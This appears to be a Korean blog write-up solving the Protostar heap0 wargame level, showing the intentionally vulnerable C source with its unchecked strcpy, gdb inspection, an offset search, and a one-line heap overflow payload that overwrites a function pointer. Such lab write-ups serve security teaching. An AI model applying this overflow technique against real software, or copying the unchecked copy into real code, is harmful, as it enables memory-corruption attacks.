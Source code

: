 ```yaml
---
layout: post
title: "[exploit-exercise][protostar] heap0"
date: 2017-06-1 15:10:00이
description: "Wargmae Protostar 문제풀이"
category: wargame
tags:  [heap]
---
```


[Protostar Heap0 - Exploit Exercises](https://exploit-exercises.com/protostar/heap0/)

>This level introduces heap overflows and how they can influence code flow.
>
>This level is at /opt/protostar/bin/heap0

<!--more-->

## Source

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));

  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);
  strcpy(d->name, argv[1]);

  f->fp();
}
```

## Analysis

```bash
$ ./heap0
data is at 0x804a008, fp is at 0x804a050
Segmentation fault
```


```
(gdb) p winner
$1 = {void (void)} 0x8048464 <winner>
(gdb) p nowinner
$2 = {void (void)} 0x8048478 <nowinner>
(gdb) p data
$3 = (struct here_cg_arc_record *) 0x0
(gdb) p &data
$4 = (struct here_cg_arc_record **) 0xb7fff884
```


`data[64]` 뒤에 `fp` function pointer 있을 것으로 생각되니깐... `64` bytes 이후에 `winner()` 함수 주소 설정.

```bash
$ $ ./heap0 $(python -c 'print "A"*64 + "\x64\x84\x04\x08"')
data is at 0x804a008, fp is at 0x804a050
level has not been passed
```

Exploit pattern 으로 다시 `fp` 주소 확인을 하면 72 bytes 뒤에 있네.

```bash
$ ./pattern.py 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

$ ./pattern.py 0x41346341
Pattern 0x41346341 first occurrence at position 72 in pattern.
```

## Exploit

```bash
$ ./heap0 $(python -c 'print "A"*72 + "\x64\x84\x04\x08"')
```



